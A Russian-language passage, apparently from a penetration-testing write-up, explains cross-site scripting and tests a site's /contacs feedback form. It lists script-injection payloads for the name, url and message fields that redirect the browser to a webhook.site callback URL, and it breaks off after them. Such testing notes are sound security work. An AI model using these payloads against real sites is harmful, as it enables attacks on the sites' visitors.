 ### Моделирование и тестирование угроз

#### XSS (Cross-Site Scripting)

- XSS (Cross-Site Scripting) — это уязвимость веб-приложений, позволяющая злоумышленнику внедрить на веб-страницу вредоносный скрипт (обычно JavaScript). Когда посетитель заходит на такую страницу, его браузер исполняет внедренный скрипт, что может привести к краже персональных данных (cookies, токенов сессии) или выполнению произвольных действий от имени пользователя.

Обычно когда мы имеем возможность отправить какой-то ввод (личные сообщения, комментарии, форма обратной связи, просто значение отображающееся на странице) может присутствовать XSS. Любое наше взаимодействие с посетлителем сервиса предплогает клиент серверные атаки.

1) Проверять будем отправкой нескольких пейлодов, перехватывать возможное перенаправление на веб сервисе ```https://webhook.site/``` , в форме ```/contacs``` для обратной связи используется три параметра ```name=``` , ```url=``` , ```message=```

![](img/img4.png)

Отправляю пейлод с перенаправление ```window.location=``` на ```https://webhook.site/``` причем в каждой нагрезке добавляю параметр ```field=``` где значение поле ввода из формы:

```
name=''><script>window.location='https://webhook.site/f7de6550-b037-40f2-9588-01a3dab6a73e?field=name';</script>

url=https://webhook.site/f7de6550-b037-40f2-9588-01a3dab6a73e?field=your_site

message=''><script>window.location='https://webhook.site/f7de6550-b037-40f2-9588-01a3dab6a73e?field=message
```
